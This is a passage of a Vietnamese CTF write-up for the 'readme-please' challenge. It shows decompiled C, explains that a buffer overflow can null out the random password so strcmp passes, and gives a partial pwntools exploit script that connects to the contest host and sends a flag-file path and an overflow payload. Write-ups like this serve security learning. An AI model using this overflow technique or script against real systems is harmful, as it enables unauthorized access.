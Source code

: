 ```c
    else
    {
      puts("Please don't try anything funny!");
      fflush(_bss_start);
    }
  }
  return 0;
}
```

- generate_password: ta thấy hàm này sẽ mở `/dev/urandom` , và đọc 127 byte từ `fd` vào `buf` , tiếp theo là 1 vòng lặp để mã hóa password 

```c
char *__fastcall generate_password(char *a1, size_t a2)
{
  char *result; // rax
  int fd; // [rsp+14h] [rbp-Ch]
  size_t i; // [rsp+18h] [rbp-8h]

  fd = open("/dev/urandom", 0);
  if ( fd < 0 )
  {
    perror("Failed to open /dev/urandom");
    exit(1);
  }
  if ( read(fd, a1, a2) != a2 )
  {
    perror("Failed to read random bytes");
    close(fd);
    exit(1);
  }
  close(fd);
  for ( i = 0LL; i < a2; ++i )
    a1[i] = a1[i] % 94 + 33;
  result = &a1[a2];
  a1[a2] = 0;
  return result;
}
```

- với mật khẩu dài như trên thì ta hoàn toàn không thể brute_force thành công được , ở đây ta chỉ cần tận dụng `bof` để ghi đè kí tự bắt đàu thành kí tự NULL là được bởi vì `strcmp` check 2 `buf` đến byte null  

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./main',checksec=False)
#p = process()

p = remote('readme-please.ctf.pearlctf.in', 30039)

input()

payload = b'/files/flag.txt\x00'

p.sendline(payload)
input()
payload = b'a'*8
payload = payload.ljust(112,b'\x00')
payload += b'a'*8
```
